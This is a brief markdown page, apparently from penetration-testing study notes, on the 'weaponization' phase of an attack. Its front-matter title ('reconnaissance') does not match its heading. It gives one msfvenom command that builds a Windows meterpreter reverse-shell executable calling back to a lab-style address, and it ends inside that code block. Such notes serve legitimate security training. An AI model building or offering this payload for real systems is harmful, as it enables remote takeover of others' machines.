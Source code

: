 ```yaml
---
title: reconnaissance
hide:
  - toc
---
```


# Weaponization

## Goal
Prepare exploit code and payloads that will be delivered to the target.

## Quick commands
- Placeholder command for payload build:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe -o payload.exe
